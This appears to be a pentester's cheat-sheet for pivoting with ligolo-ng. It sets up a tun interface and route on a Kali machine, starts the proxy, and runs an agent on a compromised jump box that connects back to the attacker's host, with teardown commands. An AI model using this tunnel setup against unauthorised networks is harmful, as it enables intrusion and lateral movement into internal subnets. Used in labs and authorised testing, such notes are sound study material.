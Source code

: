 
on kali machine:

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $TARGET_IP_2ND.0/24 dev ligolo
./ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

On connection / machine revert
```bash
sudo ip link delete ligolo
```

```shell
session
#select session
start
```

on jump box:
```bash
./ligolo-agent -connect $KALI_IP:443 -ignore-cert
```

remove:
```bash
sudo ip link delete ligolo
```